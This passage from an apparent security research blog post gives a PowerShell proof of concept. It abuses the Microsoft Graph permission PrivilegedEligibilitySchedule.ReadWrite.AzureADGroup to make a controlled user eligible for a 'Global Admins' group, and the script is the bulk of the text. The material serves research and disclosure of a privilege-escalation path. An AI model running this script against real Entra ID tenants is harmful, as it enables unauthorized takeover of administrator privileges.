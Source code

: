 ```
$securePassword = ConvertTo-SecureString -String $password -AsPlainText -Force
$credential = New-Object -TypeName System.Management.Automation.PSCredential -ArgumentList $appId, $securePassword
Connect-AzAccount -ServicePrincipal -TenantId $tid -Credential $credential
$token = (Get-AzAccessToken -ResourceTypeName MSGraph).Token

# Request PIM group eligibility
$threeHoursAgo = (get-date).AddHours(-3).ToString("yyyy-MM-ddTHH:mm:ss.000Z")
$uri = 'https://graph.microsoft.com/beta/identityGovernance/privilegedAccess/group/eligibilityScheduleRequests'
$headers = @{
    'Authorization'= "Bearer $token"
    'Content-Type' = 'application/json'
}

$eligibleAssignment = @{
    action = 'adminAssign'
    justification = 'PoC'
    accessId = $groupRole
    principalId = $userId
    groupId = $groupId
    scheduleInfo = @{
        startDateTime = $threeHoursAgo
        expiration = @{
            type = 'afterDuration'
            duration = 'PT5H'
        }
    }
}

$body = ConvertTo-Json -InputObject $eligibleAssignment
$response = Invoke-WebRequest -Method Post -Uri $uri -Headers $headers -Body $body
$response
```
By executing the above PowerShell script, we can confirm that the [`PrivilegedEligibilitySchedule.ReadWrite.AzureADGroup`](https://learn.microsoft.com/en-us/graph/permissions-reference#privilegedeligibilityschedulereadwriteazureadgroup) permission can be leveraged to make a controlled user account eligible to the “Global Admins” group:

[![](/assets/images/blog/2024-07-31-abusing-pim-related-application-permissions-part-2/12_screenshot.png)](/assets/images/blog/2024-07-31-abusing-pim-related-application-permissions-part-2/12_screenshot.png)

[![](/assets/images/blog/2024-07-31-abusing-pim-related-application-permissions-part-2/13_screenshot.png)](/assets/images/blog/2024-07-31-abusing-pim-related-application-permissions-part-2/13_screenshot.png)

